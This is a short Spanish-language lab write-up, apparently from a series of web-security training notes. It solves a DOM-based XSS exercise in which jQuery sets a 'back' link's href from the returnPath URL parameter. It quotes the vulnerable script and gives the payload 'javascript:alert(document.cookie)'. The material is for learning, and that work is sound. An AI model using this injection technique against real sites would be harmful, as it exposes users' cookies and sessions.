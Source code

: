 ## 24. Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

```
This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

To solve this lab, make the "back" link alert document.cookie.
```

Ingresamos a cualquier producto o al enlace **Submit feedback** y analizando el codigo fuente encontramos lo siguiente

```
<script>
    $(function() {
    	$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```

Entonces, agregaremos el parametro returnPath con un valor por ejemplo **aaa** y verificamos mediante las heramientas de desarrollador donde encontramos dicho texto.

![](img55.png)

Entonces generamos el siguiente payload para ejecutar el alert.

```
javascript:alert(document.cookie)
```

![](img56.png)
